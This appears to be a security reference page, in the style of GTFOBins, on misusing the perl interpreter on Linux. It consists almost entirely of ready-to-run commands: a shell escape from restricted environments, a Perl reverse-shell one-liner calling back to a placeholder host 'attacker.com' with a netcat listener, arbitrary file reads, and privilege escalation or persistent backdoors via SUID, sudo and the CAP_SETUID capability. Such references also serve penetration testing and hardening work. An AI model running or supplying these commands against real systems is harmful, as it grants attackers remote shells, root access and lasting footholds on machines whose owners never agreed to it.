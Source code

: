 # perl

## **Shell**

It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
perl -e 'exec "/bin/sh";'
```

## **Reverse shell**

It can send back a reverse shell to a listening attacker to open a remote network access.

- Run `nc -l -p 12345` on the attacker box to receive the shell.
    
    ```
    export RHOST=attacker.com
    export RPORT=12345
    perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```
    

## **File read**

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```bash
LFILE=file_to_read
perl -ne print $LFILE
```

## **SUID**

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which perl) .
./perl -e 'exec "/bin/sh";'
```

## **Sudo**

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo perl -e 'exec "/bin/sh";'
```

## **Capabilities**

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

```bash
cp $(which perl) .
sudo setcap cap_setuid+ep perl
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
